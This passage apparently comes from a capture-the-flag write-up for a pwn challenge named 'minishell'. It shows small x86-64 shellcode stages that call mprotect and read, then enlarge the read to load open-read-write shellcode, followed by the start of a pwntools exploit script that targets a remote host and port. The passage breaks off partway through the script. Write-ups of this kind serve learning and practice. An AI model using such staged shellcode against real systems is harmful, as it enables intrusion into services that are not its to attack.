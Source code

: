```
    mov al, 0xa
    mov dl, 0x7
_syscall:
    syscall
    push rcx
    push rax
    pop rdi
    pop rsi
    jmp _syscall
```

#### Adjust bigger input size and call read again 

The rest is pretty straightforward, as `RDI` and `RSI` are already set, we just need to change `RDX` to a bigger value to read our ORW shellcode.

Shellcode (6 bytes):
```
    mov al, 0
    mov dl, 0xff
    syscall
```

#### ORW and get flag

Exploit:

```
#!/usr/bin/env python

import sys
from pwn import *

context.arch = 'amd64'

host = '200.136.252.34'
port = 4545

if len(sys.argv) == 1:
    r = process('./minishell')
else:
    r = remote(host, port)

raw_input('#')
r.recvuntil('So what? ')

# mprotect(mmap_addr, len, PROC_RWX)
# read(0, mmap_addr+offset, 7)
sc = """
    mov al, 0xa
    mov dl, 0x7
    L20:
    syscall
    push rcx
    push rax
    pop rdi
    pop rsi
    jmp L20
    """

sc = asm(sc)
r.send(sc)
sleep(0.5)

# read(0, mmap_addr+offset, 0xff)
```